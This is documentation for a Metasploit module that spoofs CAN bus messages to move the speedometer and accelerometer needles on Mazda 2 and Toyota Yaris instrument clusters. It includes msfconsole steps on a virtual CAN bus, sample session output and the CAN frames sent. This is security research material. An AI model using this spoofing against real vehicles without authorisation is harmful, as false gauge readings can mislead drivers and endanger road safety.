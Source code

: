 ## Introduction

mazda_ic_mover or Mazda 2 Instrument Cluster Accelorometer Mover sends CAN message to move the needle of the accelorometer and speedometer of the Mazda 2 instrument cluster. This works specifically for for Mazda 2 1.5 Skyactiv, Mazda Demio, Mazda 2 Demio, Scion iA, Toyota Yaris, Toyota Yaris R and Toyota Yaris iA.

This [research](https://twitter.com/rootconph/status/1171333590161879040) was done by Jay Turla of ROOTCON's Car Hacking Village.

## Verification Steps

Fire up virtual CAN bus:

1. `sudo modprobe can`
2. `sudo modprobe vcan`
3. `sudo ip link add dev vcan0 type vcan`
4. `sudo ip link set up vcan0`

You could also use Craig Smith's Instrument Cluster Simulator: https://github.com/zombieCraig/ICSim

Launch msf:

5. Start `msfconsole`
6. `use auxiliary/server/local_hwbridge`
7. `set uripath testbus`
8. `run`
9. `use auxiliary/client/hwbridge/connect`
10. `set targeturi testbus`

## Options

**CANBUS**
CAN Bus to perform scan on, defaults to connected bus

## Scenarios
A successful spoofing of an instrument cluster on a target vehicle:

```
msf5 auxiliary(client/hwbridge/connect) > run
[*] Running module against 127.0.0.1

[*] Attempting to connect to 127.0.0.1...
[*] Hardware bridge interface session 2 opened (127.0.0.1 -> 127.0.0.1) at 2019-09-11 04:59:40 -0700
[+] HWBridge session established
[*] HW Specialty: {"automotive"=>true}  Capabilities: {"can"=>true, "custom_methods"=>true}
[!] NOTICE:  You are about to leave the matrix.  All actions performed on this hardware bridge
[!]          could have real world consequences.  Use this module in a controlled testing
[!]          environment and with equipment you are authorized to perform testing on.
[*] Auxiliary module execution completed
msf5 auxiliary(client/hwbridge/connect) > sessions

Active sessions
===============

  Id  Name  Type                   Information  Connection
  --  ----  ----                   -----------  ----------
  2         hwbridge cmd/hardware  automotive   127.0.0.1 -> 127.0.0.1 (127.0.0.1)

msf5 auxiliary(client/hwbridge/connect) > sessions -i 2
[*] Starting interaction with 2...

hwbridge > run post/hardware/automotive/mazda_ic_mover CANBUS=vcan0

[*] Moving the accelorometer and speedometer...
hwbridge > run post/hardware/automotive/mazda_ic_mover CANBUS=vcan0

[*] Moving the accelorometer and speedometer...
hwbridge > run post/hardware/automotive/mazda_ic_mover CANBUS=vcan0

[*] Moving the accelorometer and speedometer...
hwbridge > run post/hardware/automotive/mazda_ic_mover CANBUS=vcan0

[*] Moving the accelorometer and speedometer...
hwbridge > run post/hardware/automotive/mazda_ic_mover CANBUS=vcan0

[*] Moving the accelorometer and speedometer...
```

You can use candump to verify the CAN messages being sent:

```
jjt@ubuntu:~/pentot/ICSim$ candump -c vcan0
  vcan0  202   [8]  60 01 60 60 60 60 60 00
  vcan0  202   [8]  60 01 60 60 60 60 60 00
  vcan0  202   [8]  60 01 60 60 60 60 60 00
  vcan0  202   [8]  60 01 60 60 60 60 60 00
```
